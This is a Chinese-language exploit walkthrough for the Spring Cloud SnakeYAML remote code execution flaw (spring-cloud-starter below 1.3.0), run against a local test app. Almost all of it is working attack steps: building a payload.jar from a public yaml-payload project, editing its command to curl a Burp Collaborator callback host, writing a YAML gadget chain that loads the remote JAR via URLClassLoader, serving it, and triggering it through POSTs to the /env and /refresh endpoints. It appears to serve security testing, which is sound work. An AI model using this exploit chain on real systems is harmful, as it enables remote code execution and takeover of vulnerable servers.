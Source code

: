 ```
cd springcloud-snakeyaml-rce
mvn spring-boot:run
```

> *   目标依赖的 `spring-cloud-starter` 版本 \\< 1.3.0.RELEASE
> 
> 现在最新版本3.03,古老的洞了，基本很少遇到，遇到就是好用。

**(1)制作payload.jar文件**

下载payload

```
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload/src/artsploit
```

替换命令执行内容

```
sed -i "" 's/dig scriptengine.x.artsploit.com/curl c0dy0qcncknp8zpb5bir0jvt4kaayz.burpcollaborator.net/g' AwesomeScriptEngineFactory.java
```

编译

```
cd ../../
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf payload.jar -C src/ .
```

在该目录生成利用的example.yml文件,内容如下:

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:9091/payload.jar"]
  ]]
]
```

web服务挂载

```
python3 -m http.server 9091
```

**(2) 利用**

```
curl -X POST --data 'spring.cloud.bootstrap.location=http://127.0.0.1:9091/example.yml' localhost:9092/env
```

刷新即可成功触发

```
curl -X POST localhost:9092/refresh
```
